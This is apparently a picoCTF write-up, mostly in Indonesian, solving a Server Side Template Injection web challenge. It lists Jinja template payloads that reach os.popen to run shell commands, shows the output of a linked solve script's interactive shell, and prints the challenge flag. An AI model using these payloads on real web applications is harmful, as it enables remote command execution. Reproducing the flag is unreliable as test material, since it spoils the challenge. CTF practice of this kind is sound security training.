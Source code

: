 # soal
I made a cool website where you can announce whatever you want! Try it out!

## launch istance
Additional details will be available after launching your challenge instance.
I made a cool website where you can announce whatever you want! Try it out! I heard templating is a cool and modular way to build web apps! Check out my website here!

# hint
- Server Side Template Injection

# solve
- saya melihat bahwa ini adalah web SSTI
- saya pertama mencoba payload simple dengan payload sederhana SSTI ```{{ 7+7 }}```
  ![alt text](images/E_SSTI1/image.png)
  ![alt text](images/E_SSTI1/image-1.png)
- setelah itu saya mencoba payload dari sini
  - [https://book.hacktricks.wiki/en/pentesting-web/ssti-server-side-template-injection/index.html](https://book.hacktricks.wiki/en/pentesting-web/ssti-server-side-template-injection/index.html)
  - [me2nuk.com/SSTI-Vulnerability/](https://me2nuk.com/SSTI-Vulnerability/)
    ```
    {{config}}

    {{self}} 
    {{_self.env}}
    {{self.env}}
    {{self._templateReference}}

    {{self._TemplateReference__context.cycler.__init__.__globals__.os.popen('ls').read()}}
    {{self._TemplateReference__context.cycler.__init__.__globals__.os.popen('cat flag').read()}}

    {{ config.__class__.__init__.__globals__.os.popen('ls').read() }}
    ```

## python
- download [E_SSTI1.py](https://raw.githubusercontent.com/ariafatah0711/ctf_aria/refs/heads/main/picoCTF/web_exploit/solve/E_SSTI1.py) 
- ubah url nya: ```TARGET_URL = "http://rescued-float.picoctf.net:61261/"``
- lalu jalankan
  ```bash
  python3 E_SSTI1.py
  Shell> ls
  __pycache__
  app.py
  flag
  requirements.txt
  Shell> cat flag
  picoCTF{s4rv3r_s1d3_t3mp14t3_1nj3ct10n5_4r3_c001_5c985a9a}
  Shell> ^C
  ```

# flag
picoCTF{s4rv3r_s1d3_t3mp14t3_1nj3ct10n5_4r3_c001_5c985a9a}